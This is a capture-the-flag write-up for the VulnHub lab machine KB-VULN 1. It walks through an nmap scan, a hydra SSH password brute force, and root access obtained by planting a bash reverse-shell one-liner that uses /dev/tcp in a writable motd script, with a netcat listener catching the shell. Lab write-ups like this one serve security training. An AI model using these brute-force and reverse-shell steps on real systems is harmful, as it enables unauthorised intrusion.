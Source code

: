 ```yaml
---
title: KB-VULN: 1 |  CTF Writeup
description: KB-VULN CTF Writeup vulnhub.com
categories:[hacking, ctf]
---
```


##RECON
{% highlight bash %}
nmap service scan: 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}

checking the source code showed me this comment:
{% highlight html %} 
<!-- Username : sysadmin -->
{% endhighlight %}

Running the username and the rockyou wordlist through hydra to bruteforce SSH:

{% highlight bash %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ hydra -l sysadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.106 -V

[22][ssh] host: 192.168.56.106   login: sysadmin   password: password1

{% endhighlight %}

Logging into SSH server and getting the first flag: 

{% highlight bash %}
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
{% endhighlight %}

Checking the passwd file on the system shows that the user eftipi can also login via ssh:

{% highlight bash %}
sysadmin@kb-server:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
sysadmin:x:1000:1000:KernelBlog VM:/home/sysadmin:/bin/bash
eftipi:x:1001:1001:,,,:/home/eftipi:/bin/bash
sysadmin@kb-server:~$ 
{% endhighlight %}

There is a clue as to the files we can write as the sysadmin user in the ftp directory
{% highlight bash %}
sysadmin@kb-server:~/ftp$ cat .bash_history 
exit
ls
cd /etc/update-motd.d/
ls
nano 00-header
exit
{% endhighlight %}

We just need to add the following oneliner to the script and set up a netcat listener: 
{% highlight bash %}
bash -c 'exec bash -i &>/dev/tcp/192.168.56.101/6666 <&1'
{% endhighlight %}
ATTACKER MACHINE: 
{% highlight bash %}
nc -lp 6666
{% endhighlight %}

{% highlight bash %}
root@kb-server:/root# cat flag.txt
cat flag.txt
1eedddf9fff436e6648b5e51cb0d2ec7
{% endhighlight %}
